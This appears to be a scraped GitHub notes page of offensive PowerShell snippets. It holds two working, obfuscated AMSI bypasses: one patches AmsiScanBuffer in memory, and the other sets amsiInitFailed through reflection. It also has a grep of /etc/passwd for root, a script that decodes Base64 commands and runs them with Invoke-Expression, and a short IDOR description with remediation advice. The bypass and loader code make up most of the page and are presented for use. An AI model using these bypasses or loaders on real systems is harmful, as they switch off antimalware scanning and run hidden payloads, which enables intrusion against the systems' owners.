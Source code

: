 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
grep "^root:" /etc/passwd | cut -f4 -d: 

S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

//Define the path to the text file containing the Base64-encoded PowerShell commands
$encodedFilePath = "path\to\your\encodedfile.txt"

//Read the Base64-encoded content from the text file
$encodedContent = Get-Content -Path $encodedFilePath

// Decode the Base64-encoded content
$decodedBytes = [System.Convert]::FromBase64String($encodedContent)
$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

/// Execute the decoded PowerShell commands
Invoke-Expression $decodedContent


=============================================================

Insecure Direct Object Reference (IDOR) via Transaction ID Manipulation
Description: Insecure Direct Object Reference (IDOR) via transaction ID manipulation occurs when an application fails to properly authorize access to transaction data. By altering the transaction ID in the URL or request parameters, an attacker can access other users' transaction data, which should not be visible to them.

Impact: This vulnerability can lead to unauthorized access to sensitive financial information, privacy violations, and potential regulatory non-compliance. Attackers can exploit this to view, modify, or manipulate transaction data of other users, leading to severe data breaches and loss of user trust.

Remediation: Implement strict authorization checks to verify that the requesting user has permission to access the specified transaction. Use indirect references or opaque identifiers for transactions instead of direct IDs. Regularly review and test the application for IDOR vulnerabilities.

Reference:

OWASP IDOR
One-liner recommendation: "It is recommended to implement strict authorization checks and use indirect references for transaction IDs to prevent IDOR vulnerabilities."
